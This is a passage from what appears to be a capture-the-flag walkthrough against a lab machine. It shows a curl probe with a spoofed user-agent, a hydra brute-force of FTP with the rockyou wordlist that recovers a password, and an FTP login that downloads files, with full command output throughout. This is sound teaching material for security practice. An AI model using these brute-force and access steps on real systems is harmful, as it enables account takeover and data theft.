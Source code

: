 When I tried `C`, there was a different output to the `curl` command. The following came up when I used user-agent `C`:

```bash
$ curl -A "C" -L 10.10.240.1  
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```

The above message mentions the name `chris`. So, we got ourselves a username. So, I used that username to brute force login into ftp using the tool `hydra` and the wordlist `rockyou.txt`.

```bash
$ hydra 10.10.240.1 ftp -l chris -P /usr/share/wordlists/rockyou.txt -f
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-23 15:28:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.240.1:21/
[STATUS] 240.00 tries/min, 240 tries in 00:01h, 14344159 to do in 996:08h, 16 active
[21][ftp] host: 10.10.240.1   login: chris   password: crystal
[STATUS] attack finished for 10.10.240.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-23 15:29:20
```

Bingo! We have our first credentials - `chris:crystal` that can be used to login via ftp.

```bash
$ ftp chris@10.10.240.1 
Connected to 10.10.240.1.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||48589|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||58915|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |*********************************************************|   217       50.94 KiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (0.53 KiB/s)
ftp> get cute-alien.jpg
local: cute-alien.jpg remote: cute-alien.jpg
229 Entering Extended Passive Mode (|||53588|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |*********************************************************| 33143       81.35 KiB/s    00:00 ETA
226 Transfer complete.
```